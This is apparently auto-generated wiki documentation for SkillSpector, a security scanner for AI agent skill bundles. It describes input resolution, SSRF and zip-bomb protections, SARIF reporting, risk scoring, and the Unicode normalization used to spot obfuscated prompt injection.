
Sources: [src/skillspector/graph.py:40-88](), [src/skillspector/nodes/resolve_input.py:41-42](), [src/skillspector/nodes/build_context.py:1-30]()

---

# Page: Input Resolution and Context Building

# Input Resolution and Context Building

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/input_handler.py](src/skillspector/input_handler.py)
- [src/skillspector/mcp_registry.py](src/skillspector/mcp_registry.py)
- [src/skillspector/multi_skill.py](src/skillspector/multi_skill.py)
- [src/skillspector/nodes/build_context.py](src/skillspector/nodes/build_context.py)
- [src/skillspector/nodes/resolve_input.py](src/skillspector/nodes/resolve_input.py)
- [src/skillspector/structured_skill.py](src/skillspector/structured_skill.py)
- [tests/fixtures/mcp_registry/malformed.json](tests/fixtures/mcp_registry/malformed.json)
- [tests/fixtures/mcp_registry/mcp_registry.json](tests/fixtures/mcp_registry/mcp_registry.json)
- [tests/integration/test_graph.py](tests/integration/test_graph.py)
- [tests/nodes/test_build_context.py](tests/nodes/test_build_context.py)
- [tests/nodes/test_resolve_input.py](tests/nodes/test_resolve_input.py)
- [tests/test_multi_skill.py](tests/test_multi_skill.py)
- [tests/unit/test_input_handler.py](tests/unit/test_input_handler.py)
- [tests/unit/test_input_handler_bounds.py](tests/unit/test_input_handler_bounds.py)
- [tests/unit/test_input_handler_ssrf.py](tests/unit/test_input_handler_ssrf.py)
- [tests/unit/test_mcp_registry.py](tests/unit/test_mcp_registry.py)

</details>


The Input Resolution and Context Building phase is the initial stage of the SkillSpector pipeline. It is responsible for transforming diverse input sources—ranging from remote Git repositories and raw file URLs to local ZIP archives, single markdown files, and directories—into a standardized, in-memory representation suitable for parallel analysis. This process ensures that subsequent analyzer nodes operate on a uniform data structure regardless of the original source format.

Sources: [src/skillspector/nodes/resolve_input.py:41-105](), [src/skillspector/nodes/build_context.py:37-124]()

## Input Resolution Workflow

The `resolve_input` node [src/skillspector/nodes/resolve_input.py:41-105]() acts as the entry point for the LangGraph workflow. It utilizes the `InputHandler` [src/skillspector/input_handler.py:115-120]() to normalize inputs into a local directory path.

### Input Normalization Logic
The `InputHandler.resolve` method identifies the input type and applies the corresponding resolution strategy:

| Input Type | Detection Logic | Resolution Strategy |
| :--- | :--- | :--- |
| **Git URL** | Starts with `https://` or `git@` and matches known hosts or ends in `.git` [src/skillspector/input_handler.py:64-70](). | Clones the repository to a temporary directory using `git clone --depth 1` [src/skillspector/input_handler.py:218-245](). |
| **File URL** | Starts with `https://` but is not identified as a Git repo. | Downloads the file using `httpx`. If it is a ZIP, it extracts it; otherwise, it wraps the file in a temporary directory. |
| **ZIP Archive** | Local path ending in `.zip`. | Extracts the archive to a temporary directory while preventing "zip-slip" path traversal. |
| **Markdown File** | Local path ending in `.md`. | Moves the file into a temporary directory to create a valid "skill directory" structure. |
| **Directory** | Local path that is an existing directory. | Resolves to the absolute path of the directory. |

### Ingest Budget and Security
The `InputHandler` implements several security controls and resource bounds to protect the scanning environment:
* **Ingest Limits:** Remote and archive ingest is bounded by `INGEST_MAX_BYTES` (100 MiB) [src/skillspector/input_handler.py:91](), `INGEST_MAX_ZIP_MEMBERS` (10,000) [src/skillspector/input_handler.py:96](), and `INGEST_MAX_ZIP_CENTRAL_DIRECTORY_BYTES` (16 MiB) [src/skillspector/input_handler.py:101]() to prevent DoS attacks and zip bombs [src/skillspector/input_handler.py:26-30]().
* **SSRF Protection:** The `_is_private_ip` [src/skillspector/input_handler.py:196-209]() function blocks requests to internal network addresses, loopback, link-local, and reserved IP ranges.
* **Host Allowlisting:** Remote downloads and clones are restricted to `ALLOWED_GIT_HOSTS` [src/skillspector/input_handler.py:64-70]() and `ALLOWED_DOWNLOAD_HOSTS` [src/skillspector/input_handler.py:72-80]().
* **Zip-Slip Prevention:** During extraction, the handler verifies that all member paths remain within the target temporary directory.

### Data Flow: Natural Language to Code Entity Space
This diagram illustrates how user-provided input strings are transformed into the `skill_path` entity used by the graph state.

Title: "Input Resolution Sequence"


Sources: [src/skillspector/nodes/resolve_input.py:41-105](), [src/skillspector/input_handler.py:64-112](), [src/skillspector/state.py:40-48]()

## Multi-Skill Detection

When scanning a directory with `--recursive`, SkillSpector can detect if it contains multiple independent skills rather than a single project. This is managed by `detect_skills` [src/skillspector/multi_skill.py:26]().

### Detection Criteria
A directory is flagged as "multi-skill" if:
1. It contains **no** `SKILL.md` or `skill.md` at the root level.
2. At least two immediate subdirectories contain their own `SKILL.md`, `skill.md`, or structured AISOP/AISP bundles [src/skillspector/multi_skill.py:112-156]().

If a root `SKILL.md` exists, the entire directory is treated as a single skill regardless of nested files. The results are encapsulated in a `MultiSkillDetectionResult` dataclass [src/skillspector/multi_skill.py:122-132](). Discovery is bounded by `MAX_MULTI_SKILL_DISCOVERY_ENTRIES` (10,000) and `MAX_MULTI_SKILL_RUNTIME_SECONDS` (2.0) [src/skillspector/multi_skill.py:54-59]().

Sources: [src/skillspector/multi_skill.py:26-156]()

## Context Building

Once the input is resolved to a local directory, the `build_context` node [src/skillspector/nodes/build_context.py:36]() populates the `SkillspectorState` with metadata, manifests, and file contents.

### Component Discovery and Metadata
The system performs a recursive walk of the resolved directory, skipping noise directories such as `__pycache__`, `node_modules`, `.venv`, and `.git` [src/skillspector/nodes/build_context.py:87](). 

For every discovered file, component metadata is extracted:
* **Type:** Inferred from file extension via `_FILE_TYPES` (e.g., `.py` as `python`, `.md` as `markdown`) [src/skillspector/nodes/build_context.py:107-124]().
* **Lines & Size:** Line counts and file sizes via `os.stat`.
* **Executable Status:** Flags executable scripts based on extension and permissions.

### Python AST Prewarming
To optimize parallel analysis, `build_context` prewarms a process-local Python AST cache via `prewarm_python_ast_cache` [src/skillspector/python_ast.py:179-209]().
* **Cache Key:** A UUID string stored in `python_ast_cache_key` in the graph state [src/skillspector/nodes/build_context.py:108]().
* **Memory Bounds:** Respects `MAX_PYTHON_AST_SOURCE_CHARS` to avoid parsing oversized files.

### Manifest Parsing
SkillSpector parses `SKILL.md` or `skill.md` YAML frontmatter [src/skillspector/nodes/build_context.py:211-235]() to populate:
* `name` and `description` [src/skillspector/nodes/build_context.py:100-107]()
* `triggers`: Activation phrases [src/skillspector/nodes/build_context.py:103]()
* `permissions`: Declared capabilities [src/skillspector/nodes/build_context.py:104]()

### Context Data Mapping
This diagram bridges the physical file system to the internal state variables.

Title: "Context Extraction Mapping"


Sources: [src/skillspector/nodes/build_context.py:36-130](), [src/skillspector/python_ast.py:179-209](), [src/skillspector/state.py:40-48]()

---

# Page: Data Models and SARIF Output

# Data Models and SARIF Output

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [src/skillspector/models.py](src/skillspector/models.py)
- [src/skillspector/nodes/analyzers/mcp_rug_pull.py](src/skillspector/nodes/analyzers/mcp_rug_pull.py)
- [src/skillspector/nodes/report.py](src/skillspector/nodes/report.py)
- [src/skillspector/sarif_models.py](src/skillspector/sarif_models.py)
- [tests/nodes/analyzers/test_mcp_rug_pull.py](tests/nodes/analyzers/test_mcp_rug_pull.py)
- [tests/nodes/analyzers/test_sc8_shipped_bytecode.py](tests/nodes/analyzers/test_sc8_shipped_bytecode.py)
- [tests/nodes/test_report.py](tests/nodes/test_report.py)
- [tests/nodes/test_report_sanitizer.py](tests/nodes/test_report_sanitizer.py)
- [tests/nodes/test_sarif_rules_and_empty_findings.py](tests/nodes/test_sarif_rules_and_empty_findings.py)
- [tests/test_mcp_rug_pull.py](tests/test_mcp_rug_pull.py)
- [tests/test_models.py](tests/test_models.py)

</details>


This page provides a comprehensive technical reference for the core data structures used in SkillSpector to represent security findings, the protocols for analyzer plugins, and the implementation of the SARIF 2.1.0 export format. It also covers finding sanitization, deduplication, and the risk scoring algorithm used to generate the final security posture assessment.

## Core Data Models

SkillSpector uses structured Python classes and dataclasses to manage the lifecycle of a security issue from discovery to report generation.

### Severity, Location, and Finding Classes

The `AnalyzerFinding` class is the lightweight structure produced by individual analyzers (`src/skillspector/models.py:59-74]()). It is converted into the `Finding` class (`src/skillspector/models.py:108-140]()), which serves as the unified model for the LangGraph state and final reporting.

| Class | Purpose | Source |
| :--- | :--- | :--- |
| `Severity` | StrEnum defining `LOW`, `MEDIUM`, `HIGH`, `CRITICAL`. | `[src/skillspector/models.py:34-41]()` |
| `Location` | Dataclass for file path and line ranges (`file`, `start_line`, `end_line`). | `[src/skillspector/models.py:44-50]()` |
| `AnalyzerFinding` | Raw finding produced by analyzer nodes before normalization. | `[src/skillspector/models.py:58-75]()` |
| `Finding` | Enriched finding used in `SkillspectorState` and reporting. | `[src/skillspector/models.py:107-140]()` |

### AnalyzerPlugin Protocol

All analyzers in the system adhere to or implement patterns consistent with the analyzer architecture, emitting structured findings through runner utilities (`[src/skillspector/models.py:58-100]()`).

**Sources:** `[src/skillspector/models.py:34-140]()`

---

## Data Flow: Finding to Output

The following diagram illustrates how raw detections from code-level entities (Analyzers) are transformed into structured data and eventually into a standardized SARIF report.

**Finding Transformation and Export Flow**

**Sources:** `[src/skillspector/models.py:58-140]()`, `[src/skillspector/nodes/report.py:42-63]()`, `[src/skillspector/nodes/deduplicate.py:1-104]()`, `[src/skillspector/sarif_models.py:160-181]()`, `[src/skillspector/nodes/analyzers/mcp_rug_pull.py:38-44]()`

---

## Finding Sanitization and Deduplication

Before findings are reported, they undergo sanitization and deduplication to ensure report quality and readability.

### Sanitization
Scanned content and LLM outputs can carry ANSI escape sequences and control bytes (such as NUL or ESC) into finding text. The `_sanitize_finding` function strips these characters from all text fields (`message`, `explanation`, `remediation`, `finding`, `context`, `matched_text`, `code_snippet`) using regex patterns `_ANSI_RE` and `_CONTROL_RE` (`[src/skillspector/nodes/report.py:81-125]()`). This ensures that terminal output and exported reports remain clean UTF-8 (`[src/skillspector/nodes/report.py:101-124]()`).

### Deduplication Logic
The deduplication mechanism eliminates redundant findings across files or within the same file based on rule ID and matched content, keeping the highest confidence representative (`[src/skillspector/nodes/deduplicate.py:1-104]()`).

**Sources:** `[src/skillspector/nodes/report.py:81-125]()`, `[src/skillspector/nodes/deduplicate.py:1-104]()`

---

## SARIF 2.1.0 Implementation

SkillSpector implements the OASIS SARIF (Static Analysis Results Interchange Format) 2.1.0 specification using Pydantic models for strict validation (`[src/skillspector/sarif_models.py:16-181]()`).

### SARIF Model Mapping
The `_build_sarif` function maps internal `Finding` attributes to SARIF entities (`[src/skillspector/nodes/report.py:46-63]()`):

*   **Rule ID:** Mapped to `ruleId` (`[src/skillspector/sarif_models.py:80-82]()`).
*   **Severity / Level:** Mapped to SARIF `level` (`error`, `warning`, `note`) (`[src/skillspector/sarif_models.py:83-83]()`).
*   **Location:** Mapped to `physicalLocation` using `artifactLocation` (file path) and `region` (line numbers) (`[src/skillspector/sarif_models.py:27-61]()`).
*   **Suppression:** Suppressed findings include a `suppressions` object (`[src/skillspector/sarif_models.py:69-74]()`).

**SARIF Model Hierarchy**

**Sources:** `[src/skillspector/sarif_models.py:27-181]()`, `[src/skillspector/nodes/report.py:46-63]()`

---

## Risk Score Computation

The `report` node calculates a cumulative risk score (0-100) based on discovered findings via `_compute_risk_score` (`[src/skillspector/nodes/report.py:70-76]()`, `[tests/nodes/test_report.py:28-30]()`).

### Scoring Algorithm
1.  **Diminishing Returns:** A per-rule diminishing weight is applied: 1.0 for the first occurrence, 0.5 for the second, and 0.25 for the third (`[tests/nodes/test_report.py:182-204]()`). Subsequent occurrences beyond the rule cap contribute zero points.
2.  **Confidence Scaling:** Each finding's contribution is scaled by its `confidence` value (`[tests/nodes/test_report.py:104-107]()`).
3.  **Base Points (`_SEVERITY_POINTS`):**
    *   **CRITICAL:** 50 points (`[tests/nodes/test_report.py:90-90]()`)
    *   **HIGH:** 25 points (`[tests/nodes/test_report.py:91-91]()`)
    *   **MEDIUM:** 10 points (`[tests/nodes/test_report.py:92-92]()`)
    *   **LOW:** 5 points (`[tests/nodes/test_report.py:93-93]()`)

### Risk Bands and Recommendations
The final score is mapped to a severity band and recommendation (`[src/skillspector/nodes/report.py:70-76]()`):

| Score Range | Severity Band | Recommendation |
| :--- | :--- | :--- |
| 81 - 100 | `CRITICAL` | `DO_NOT_INSTALL` |
| 51 - 80 | `HIGH` | `DO_NOT_INSTALL` |
| 21 - 50 | `MEDIUM` | `CAUTION` |
| 0 - 20 | `LOW` | `SAFE` |

**Sources:** `[src/skillspector/nodes/report.py:70-76]()`, `[tests/nodes/test_report.py:28-204]()`

---

# Page: Artifact Classification and Text Normalization

# Artifact Classification and Text Normalization

<details>
<summary>Relevant source files</summary>

The following files were used as context for generating this wiki page:

- [docs/NESTED_ARTIFACT_INSPECTION.md](docs/NESTED_ARTIFACT_INSPECTION.md)
- [src/skillspector/artifacts.py](src/skillspector/artifacts.py)
- [src/skillspector/nested_artifacts.py](src/skillspector/nested_artifacts.py)
- [src/skillspector/nodes/analyzers/artifact_integrity.py](src/skillspector/nodes/analyzers/artifact_integrity.py)
- [src/skillspector/nodes/deduplicate.py](src/skillspector/nodes/deduplicate.py)
- [src/skillspector/python_ast.py](src/skillspector/python_ast.py)
- [src/skillspector/references.py](src/skillspector/references.py)
- [src/skillspector/unicode_confusables.py](src/skillspector/unicode_confusables.py)
- [tests/nodes/analyzers/test_artifact_integrity_bounds.py](tests/nodes/analyzers/test_artifact_integrity_bounds.py)
- [tests/nodes/test_deduplicate.py](tests/nodes/test_deduplicate.py)
- [tests/nodes/test_nested_artifacts.py](tests/nodes/test_nested_artifacts.py)
- [tests/nodes/test_security_end_to_end.py](tests/nodes/test_security_end_to_end.py)
- [tests/nodes/test_security_remediation.py](tests/nodes/test_security_remediation.py)

</details>


## Purpose and Scope

This page documents the subsystem responsible for raw byte classification, security-oriented text normalization, unicode confusable handling, nested artifact extraction, Python AST caching, and reference extraction. Governed primarily by `src/skillspector/artifacts.py`, `src/skillspector/nested_artifacts.py`, `src/skillspector/python_ast.py`, and `src/skillspector/references.py`, this subsystem ensures that scans operate on robust derived views of raw files without creating untracked gaps between supplied bytes and inspected text.

Sources:
- `src/skillspector/artifacts.py:1-10`
- `src/skillspector/nested_artifacts.py:1-12`
- `src/skillspector/python_ast.py:1-22`
- `src/skillspector/references.py:1-6`

---

## Byte-Level Artifact Classification

SkillSpector maintains raw bytes as the source of truth for all bundle artifacts. The function `classify_artifact` [src/skillspector/artifacts.py:45-57]() evaluates raw byte signatures (`_BINARY_MAGIC`) and file extensions to assign a content classification (`ContentKind`) and a normative disposition (`ArtifactDisposition`).


*Figure 1: Artifact classification flow bridging raw byte inputs to `ContentKind` and `ArtifactDisposition` code entities.*

Sources:
- `src/skillspector/artifacts.py:28-57`
- `src/skillspector/artifacts.py:142-192`
- `tests/nodes/test_security_remediation.py:48-61`

---

## Multi-View Security Text Projections and Obfuscation Defeat

To defeat prompt injection obfuscation techniques such as zero-width space injection, letter spacing, and character substitution, text artifacts undergo multi-view security projections via `security_text_views` and `normalized_security_view` [src/skillspector/artifacts.py:71-87](). 

Each `SecurityTextView` wraps derived text along with an array-based source offset map (`source_offsets: array[int]`), enabling exact source coordinate mapping even after stripping default ignorable code points (`_DEFAULT_IGNORABLE_CODEPOINTS`) or collapsing spacing gaps.


*Figure 2: Text normalization pipeline mapping raw source text to bounded `SecurityTextView` instances.*

Sources:
- `src/skillspector/artifacts.py:71-87`
- `src/skillspector/artifacts.py:206-240`
- `tests/nodes/test_security_remediation.py:155-185`

---

## Unicode Confusables and Anomaly Detection

The scanner incorporates Unicode confusable mappings (`ASCII_CONFUSABLE_SKELETON`) and anomaly detectors to catch mixed-script spoofing and hidden control characters [src/skillspector/nodes/analyzers/artifact_integrity.py:4-39](). The `artifact_integrity` analyzer emits deterministic findings (AE1 through AE6) for:
- Unresolved or missing references (`AE1`)
- Misleading extensions (`AE2`)
- NUL byte content anomalies (`AE3`)
- Unicode and mixed-script anomalies (`AE4`)
- Oversized artifacts (`AE5`)
- Inter-character obfuscation (`AE6`)

Sources:
- `src/skillspector/nodes/analyzers/artifact_integrity.py:1-41`
- `tests/nodes/test_security_remediation.py:63-154`

---

## Nested Artifact Inspection

Zip-compatible containers (including DOCX, XLSX, PPTX, and generic `.zip` archives) are inspected locally without writing to disk or executing contents (`src/skillspector/nested_artifacts.py`) [src/skillspector/nested_artifacts.py:4-10](). 

Before invoking Python's `zipfile` module, `inspect_nested_artifacts` performs structural preflight checks on EOCD and ZIP64 records, central directory bounds, and compression ratios. Members are assigned stable virtual paths preserving their full provenance:

```text
outer-file!/nested.zip!/scripts/setup.sh
```

Cumulative resource limits (depth 3, 1,000 members, 25 MiB uncompressed bytes, 5-second wall time) are strictly enforced against a shared budget [docs/NESTED_ARTIFACT_INSPECTION.md:24-43]().

Sources:
- `src/skillspector/nested_artifacts.py:41-144`
- `docs/NESTED_ARTIFACT_INSPECTION.md:1-52`
- `tests/nodes/test_nested_artifacts.py:94-114`

---

## Python AST Caching and Parsing

Python source parsing is centralized in `src/skillspector/python_ast.py` [src/skillspector/python_ast.py:16-22](). To avoid redundant parsing across parallel analyzer branches, the graph prewarms an LRU cache of `ParsedPythonFile` objects (`_RuntimePythonAstCache`) bounded by aggregate source character limits (`MAX_PYTHON_AST_CACHE_SOURCE_CHARS = 8_000_000`) [src/skillspector/python_ast.py:40-82]().

```mermaid
